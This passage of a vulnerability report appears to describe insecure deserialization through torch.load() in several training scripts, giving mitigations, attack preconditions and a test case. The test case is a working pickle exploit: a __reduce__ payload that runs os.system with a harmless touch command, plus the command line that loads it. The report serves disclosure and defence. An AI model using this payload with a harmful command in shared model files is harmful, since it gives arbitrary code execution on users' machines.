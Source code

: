     - **User Warnings:** Implement clear warnings in the documentation and `README.md` about the security risks associated with loading pre-trained models from untrusted sources. Advise users to only download and use models from official and verified sources, and to verify the integrity of downloaded models if possible (e.g., using cryptographic signatures).

- **Preconditions:**
    1. The attacker must be able to create a malicious pickle file that exploits the insecure deserialization vulnerability.
    2. The attacker needs to make the user load this malicious pickle file. This can be achieved by:
        - Replacing legitimate pre-trained model files in locations where the user might expect to find them.
        - Tricking the user into downloading and using a malicious model file from an untrusted source, potentially through social engineering.
        - Socially engineering the user into providing a path to the malicious file via the `--load_pretrained_extractor` or `--load_pretrained_memory` command-line arguments.

- **Source Code Analysis:**
    - The following files are vulnerable because they use `torch.load()` to load pretrained models from user-provided paths:
        - `/code/src/train_attr_pred.py`
        - `/code/src/train_attr_manip.py`
        - `/code/src/eval.py`

    - **Example from `/code/src/train_attr_pred.py`:**
        ```python
        if args.load_pretrained_extractor:
            print('load %s\n' % args.load_pretrained_extractor)
            model.load_state_dict(torch.load(args.load_pretrained_extractor))
        ```
        - The code directly passes the user-controlled path from `args.load_pretrained_extractor` to `torch.load()`.
        - `torch.load()` uses `pickle` by default, and if the provided file is a malicious pickle, arbitrary code execution will occur during deserialization.
        - Similar vulnerable code patterns exist in `train_attr_manip.py` and `eval.py` for both `--load_pretrained_extractor` and `--load_pretrained_memory` arguments.

- **Security Test Case:**
    1. **Create a malicious pickle file (`malicious.pkl`)**:
        ```python
        import torch
        import os
        import pickle

        class MaliciousPayload(object):
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned.txt',)) # Example command: create /tmp/pwned.txt

        payload = MaliciousPayload()
        torch.save(payload, 'malicious.pkl')
        ```
        This script creates a `malicious.pkl` file that, when loaded, will execute the command `touch /tmp/pwned.txt` on a Linux-like system.

    2. **Run `train_attr_pred.py` and load the malicious pickle file**:
        ```bash
        export DATASET_PATH="/path/to/dataset/folder/that/contain/img/subfolder" # Replace with a valid dataset path, even dummy data
        export FILE_ROOT="/path/to/splits/folder" # Replace with a valid splits folder path, even dummy data
        python src/train_attr_pred.py --dataset_name Shopping100k --file_root ${FILE_ROOT} --img_root ${DATASET_PATH} --load_pretrained_extractor malicious.pkl
        ```
        Replace `/path/to/dataset/folder/that/contain/img/subfolder` and `/path/to/splits/folder` with actual or dummy paths to satisfy script requirements.
